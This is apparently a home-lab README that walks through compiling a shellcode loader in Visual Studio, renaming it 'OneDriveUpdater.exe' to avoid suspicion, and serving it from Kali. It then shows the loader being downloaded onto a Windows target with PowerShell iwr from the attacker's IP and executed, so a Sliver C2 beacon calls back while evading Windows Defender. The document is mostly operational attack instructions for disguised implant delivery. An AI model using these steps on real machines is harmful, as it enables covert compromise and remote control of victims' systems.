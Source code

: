 # Windows Steps

You will need a relatively new Windows machine to use Visual Studio 2022.

I used the Eval ISO downloaded as mentioned in my repo "active-directory" to create a Windows 11 VM with the following settings:
- 4 CPUs
- 8 GB RAM
- 120 GB Disk

You will need to perform the steps to bypass the TPM stuff as documented in the "active-directoy" repo steps.

Then do the usual Update/restart steps to bring it current.

Install Visual Studio 2022 Community.

Follow the steps from @xct video [Vulnlab | Wutai: Writing a Loader & Getting a Beacon](https://www.youtube.com/watch?v=dShZR6FUV2w) starting at 3:43 for creating the wutai_loader.

I have recreated his solution file, but I named my version "wutai_loader" whereas he called his "wutai_loader_youtube". The code is identical. You can just import my "solution". Just follow along on how he configures, selects compiler and linker options and builds as a release (not debug) using Visual Studio.

Make sure you don't open the "data.asm" file in Visual Studio as the file is very large and it may hang.

The data.asm file is created by pasting the output from our Kali Linux steps using "Notepad.exe"

Build it. Once the build completes successfully it should be called "wutai_loader.exe" and it will be located in the x64/Release directory. 

In the video, @xct renamed it "OneDriveUpdater.exe" so it didn't look suspicious. He transfered it back to Kali where he staged it as a downloadable file (sudo python3 -m http.server).

---
Then on our Active Directory Windows workstation "target" you can now download it via:
```
open command window
cd C:\windows\tasks
C:\windows\tasks>powershell
PS C:\Wndows\Tasks> iwr http://<Kali IP>/OneDriveUpdater.exe -o OneDriveUpdater.exe
```

It should download without and interferance from Windows Defender.

---
Before you run the command, Back on Kali, make sure you have sliver running and it is in http mode:
```
sliver > http
```
---
Now back on the Windows target, execute the beacon implant:
```
PS C:\Wndows\Tasks> .\OneDriveUpdater.exe
```
Windows Defender realime does not block it !

---
Now on Kali sliver, we should see our beacon call back !!!

---
END
